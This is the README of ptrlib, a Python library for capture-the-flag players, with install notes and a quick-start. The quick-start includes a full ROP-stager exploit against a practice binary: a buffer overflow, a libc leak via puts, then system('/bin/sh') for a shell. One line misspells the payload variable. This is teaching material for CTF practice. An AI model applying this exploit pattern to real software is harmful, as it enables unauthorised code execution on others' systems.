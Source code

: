 ptrlib
====

![Python application](https://github.com/ptr-yudai/ptrlib/workflows/Python%20application/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Requirements
Supports: Python 3.5 or later

Library Dependency:
- pycryptodome
- pywin32 (when handling Windows process)

External Program:
- When using `SSH` function:
  - ssh
  - expect
- When using `nasm` function:
  - nasm

## Usage
Basic examples are available at [/examples](https://bitbucket.org/ptr-yudai/ptrlib/src/master/examples/).

## Quick Document
There are many functions in ptrlib but let's see how to use it for pwn.
You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
sock = SSH("example.com", 22, username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", 22, username="ubuntu", identity="./id_rsa")
```
If you have the target binary or libc, it's recommended to load the binary first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
And you can use useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is the pwn example of ROP stager.
```python
plt_gets = elf.plt("gets")
stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += flat([
  rop_pop_rdi,
  elf.got("puts"),
  elf.plt("puts"),
  rop_pop_rdi,
  stage2,
  elf.plt("gets"),
  rop_pop_rbp,
  stage2,
  rop_leave_ret
], map=p64)
sock.sendlineafter("Data: ", payload)

libc_base = u64(sock.recvline()) - libc.symbol("puts")
logger.info("libc base = " + hex(libc_base))
libc.set_base(libc_base)
payload = b'A' * 8
paylaod += p64(rop_pop_rdi)
payload += p64(next(libc.find("/bin/sh")))
payload += p64(libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
- [keymoon](https://github.com/key-moon)
  - Added algorithm package
